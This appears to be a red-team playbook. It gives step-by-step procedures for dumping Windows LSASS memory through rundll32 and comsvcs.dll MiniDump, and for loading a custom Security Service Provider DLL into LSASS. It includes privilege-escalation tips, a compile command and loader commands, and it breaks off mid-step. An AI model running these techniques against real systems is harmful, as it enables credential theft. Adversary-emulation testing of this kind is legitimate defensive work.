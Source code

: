 ## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

This command must be run from a shell process that has `SeDebugPrivilege` enabled. 
PowerShell should work to this end. 

You can acquire `SeDebugPrivilege` for `cmd.exe` by launching it as `SYSTEM` via Sysinternals' `PsExec` (`psexec -sid cmd`). 
Alternatively, you can use the VBScript file from `modexp`: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/ (`cscript procdump.vbs lsass.exe`)

### Cleanup

- Delete the dump file

## LSASS Security Service Provider - Temporary SSP

Register a Security Service Provider (SSP) for LSASS. This will trigger a DLL load of the SSP into LSASS.

Register an SSP temporarily by calling the AddSecurityPackage() API.

### Prerequisites

- Local administrator 
- A compiled SSP DLL and a method of calling the AddSecurityPackage() API (e.g. custom exe payload)
    - SSP source: https://github.com/2XXE-SRA/payload_resources/blob/master/c/lsa_ssp.c
      - This can be compiled using MinGW via `x86_64-w64-mingw32-gcc -shared -municode -o ssp.dll lsa_ssp.c -lsecur32`
    - SSP loader: https://github.com/2XXE-SRA/payload_resources/blob/master/powershell/ssp_loader.ps1

### Guidance

Open an administrative PowerShell terminal. 

If using the script linked above, run the following command

```
PS> .\ssp_loader.ps1 {{ ssp_dll_path }}
```

If loading manually, first set the path to the compiled SSP DLL into a variable
